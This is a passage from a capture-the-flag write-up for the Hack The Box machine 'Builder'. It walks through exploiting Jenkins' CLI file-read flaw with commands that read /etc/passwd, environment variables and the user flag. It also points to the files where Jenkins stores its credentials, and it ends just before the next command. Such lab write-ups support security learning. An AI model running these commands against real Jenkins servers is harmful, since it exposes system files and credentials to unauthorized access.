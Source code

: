 ## Exploitation

Jenkins has a built-in [command line interface (CLI)](https://www.jenkins.io/doc/book/managing/cli/) to access Jenkins from a script or shell environment. We can download this cli from `http://builder.htb:8080/jnlpJars/jenkins-cli.jar`:

```shell
# Download the client
wget http://builder.htb:8080/jnlpJars/jenkins-cli.jar

# Test if it's vulnerable
java -jar jenkins-cli.jar -noCertificateCheck -s 'http://builder.htb:8080' help '@/etc/passwd'

[redacted]
ERROR: Too many arguments: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
java -jar jenkins-cli.jar help [COMMAND]
Lists all the available commands or a detailed description of single command.
 COMMAND : Name of the command (default: root:x:0:0:root:/root:/bin/bash)
```

It seems to be vulnerable!

Now we can enumerate the Jenkins installation environment:

```shell
java -jar jenkins-cli.jar -noCertificateCheck -s 'http://builder.htb:8080' help '@/proc/self/environ'

[redacted]
ERROR: No such command HOSTNAME=0f52c222a4ccJENKINS_UC_EXPERIMENTAL=https://updates.jenkins.io/experimentalJAVA_HOME=/opt/java/openjdkJENKINS_INCREMENTALS_REPO_MIRROR=https://repo.jenkins-ci.org/incrementalsCOPY_REFERENCE_FILE_LOG=/var/jenkins_home/copy_reference_file.logPWD=/JENKINS_SLAVE_AGENT_PORT=50000JENKINS_VERSION=2.441HOME=/var/jenkins_homeLANG=C.UTF-8JENKINS_UC=https://updates.jenkins.ioSHLVL=0JENKINS_HOME=/var/jenkins_homeREF=/usr/share/jenkins/refPATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin. Available commands are above. 
```

So we now know that the `HOME` folder is `/var/jenkins_home`, so we can get user flag like:

```shell
java -jar jenkins-cli.jar -noCertificateCheck -s 'http://builder.htb:8080' help '@/var/jenkins_home/user.txt'
```

![](Pasted%20image%2020241107162226.png)

> Jenkins stores the initial admin password inside `/var/jenkins_home/secrets/initialAdminPassword`. But in this case it didn't work :(
> - [Source](https://boozallen.github.io/sdp-docs/learning-labs/1/local-development/3-configure-jenkins.html)

> Jenkins also stores users information inside `/var/jenkins_home/users/users.xml`
> - [Source](https://dev.to/pencillr/spawn-a-jenkins-from-code-gfa)

So I executed the following:
